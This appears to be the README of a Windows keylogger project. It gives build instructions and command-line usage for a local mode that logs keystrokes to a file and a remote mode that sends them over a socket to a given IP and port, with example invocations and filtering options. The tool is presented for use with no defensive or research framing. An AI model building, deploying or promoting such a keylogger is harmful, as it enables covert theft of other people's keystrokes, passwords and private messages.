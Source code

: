 BUILD AND RUN FOR WINDOWS ONLY

# Installation

run command make

# Dependencies

[MinGW](http://www.mingw.org) for g++ and command make

# Usage

This program propose 2 type of keylogger

## Parameters

### [REQUIERED] Please, choose one of them

        -l | --local : local keylogger, store data into file on this computer, require 1 argument (destination_file)
                Example : ./bin/main.exe -l D:\file.txt

        -r | --remote : remote keylogger, send data via socket, require 2 arguments (ip, port)
                Example : ./bin/main.exe -r 192.168.1.16 7777

### [OPTIONAL]

        -c | --no_click : don't store click keys (based on ascii)
                Example : ./bin/main.exe ... -c

        -a | --alphabet_only : Store alphabet only, A-z (based on ascii)
                Example : ./bin/main.exe ... -a

        -C | --storage_format_character : Default storage format is int, use this option if you want to store as character
                Example : ./bin/main.exe ... -C

        -h | --help : Show this help
                Example : ./bin/main.exe -h

